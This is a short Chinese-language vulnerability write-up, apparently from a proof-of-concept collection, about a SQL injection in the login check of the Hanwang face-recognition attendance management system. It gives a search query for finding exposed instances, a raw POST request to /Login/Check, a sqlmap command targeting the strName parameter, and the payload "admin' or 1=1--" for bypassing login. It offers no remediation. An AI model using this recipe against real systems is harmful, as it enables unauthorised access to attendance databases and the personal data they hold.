

# 汉王人脸考勤管理系统 Check SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

```
汉王人脸考勤管理系统
```

## 网络测绘

```
title=""汉王人脸考勤管理系统""
```

## 漏洞复现


登录界面如下


请求包如下


```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```


其中strName参数存在注入


```shell
sqlmap -r postwang.txt -p strName  --current-user
```





```plain
user: admin' or 1=1--
pass: admin
```


万能密码绕过登录


## 